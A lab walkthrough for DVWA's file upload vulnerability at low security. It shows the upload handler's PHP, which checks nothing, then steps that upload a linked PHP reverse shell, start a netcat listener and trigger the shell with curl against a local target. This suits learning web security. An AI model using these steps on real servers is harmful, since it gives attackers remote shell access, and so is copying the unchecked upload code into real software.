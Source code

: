 **Objective**: Execute any PHP function of your choosing on the target system (such as `phpinfo()`	or `system()`) thanks to this file upload vulnerability.

> Source [video walkthrough](https://youtu.be/K7XBQWAZdZ4) (includes the "**The PHP module GD is not installed**" solution).

## Security: Low

> _Low level will not check the contents of the file being uploaded in any way. It relies only on trust._

```php
# source code for low security
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // Can we move the file to the upload folder?
    if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
        // No
        echo '<pre>Your image was not uploaded.</pre>';
    }
    else {
        // Yes!
        echo "<pre>{$target_path} succesfully uploaded!</pre>";
    }
}

?> 
```

1. Let's grab [Pentestmonkey's PHP reverse shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) and make the required changes:

    ![](shell_script.png)

2. Upload the file on the webserver:

    ![](shell_upload.png)

3. Set up a listener:

    ```shell
    shell
    nc -lvnp 9999
    listening on [any] 9999 ...
    ```

4. Visit the given path:

    ```shell
    curl http://127.0.0.1:42001/../../hackable/uploads/php-reverse-shell.php
    ```
